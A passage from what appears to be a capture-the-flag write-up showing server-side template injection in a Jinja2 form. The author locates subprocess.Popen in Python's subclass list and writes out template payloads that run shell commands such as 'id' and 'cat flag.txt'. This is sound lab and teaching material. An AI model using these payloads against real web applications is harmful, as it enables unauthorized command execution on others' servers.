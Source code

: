 I’ll drop that into a file and view it with newlines replacing commas:

```

cat classes.txt | tr ',' '\n' | less

```

One interesting class is `<class 'subprocess.Popen'>`. That should allow me to run commands. I’ll need to know the position of this class in the array, so I can `grep` with line number (`-n`):

```

oxdf@hacky$ cat classes.txt | tr ',' '\n' | grep -n Popen
223: <class 'subprocess.Popen'>

```

As `grep` is numbered from one, this is actually 222 when numbered from zero.

To run with subprocess and get the results, I’ll need to call `subprocess.Popen("[cmd]", stdout=subprocess.PIPE).communicate()`. In this case, that’ll look like:

```

{{ ''.__class__.__mro__[1].__subclasses__()[222]('id', stdout=?).communicate() }}

```

I show a `?` in there where it’s not clear how to get `subprocess.PIPE`. PayloadsAllTheThings shows the answer with this example:

```

{{ ''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}

```

The [Python source](https://github.com/python/cpython/blob/f235dd0784b92824565c4a4e72adc70fa3eab68f/Lib/subprocess.py#L259) also shows `subprocess.PIPE` is -1, so I can just use that value and not need to reference the object.

I’ll give this payload a try, submitting it as my name:

```

{{ ''.__class__.__mro__[1].__subclasses__()[222]('id', shell=True, stdout=-1).communicate() }}

```

On clicking the confirm link, I get the result:

![image-20210908165349973](https://0xdfimages.gitlab.io/img/image-20210908165349973.png)